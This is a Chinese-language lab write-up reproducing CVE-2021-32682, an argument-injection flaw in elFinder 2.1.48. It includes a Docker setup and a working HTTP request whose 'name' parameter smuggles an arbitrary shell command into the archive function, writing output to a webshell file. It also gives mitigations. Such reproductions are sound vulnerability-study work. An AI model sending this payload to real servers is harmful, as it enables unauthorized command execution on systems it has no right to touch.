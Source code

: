 # elFinder ZIP 参数与任意命令注入（CVE-2021-32682）

elFinder是一个基于PHP、Jquery的开源文件管理系统。

在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。

这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。当然，升级版本到2.1.49及以上也是必要的。

参考链接：

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## 漏洞环境

执行如下命令启动一个elFinder 2.1.48版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到elFinder的文件管理页面。

## 漏洞复现

复现这个漏洞首先需要用elFinder提供的功能，创建两个文件。

先创建一个普通的文本文件`1.txt`：

![](1.png)

然后右键这个文件，对其进行打包，打包后的文件命名为`2.zip`：

![](2.png)

最后我们获得`1.txt`和`2.zip`两个文件：

![](3.png)

然后，发送如下数据包来执行任意命令：

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

这个数据包中，你可以看到三个重要的参数：

- `name`， 值为`-TvTT=id>shell.php # a.zip`，你可以修改`id>shell.php`为任意你想执行的命令
- `targets[0]`， 值为`l1_MS50eHQ`，`l1`意思是第一个文件系统（默认值，不用修改），`MS50eHQ`是`1.txt`的base64编码
- `targets[1]`， 值为`l1_Mi56aXA`，`l1`意思是第一个文件系统（默认值，不用修改），`Mi56aXA`是`2.zip`的base64编码

虽然这个数据包发送后会返回错误信息，但实际上其中指定的命令已经被成功执行，可以访问`http://your-ip:8080/files/shell.php`查看执行的结果：

![](4.png)
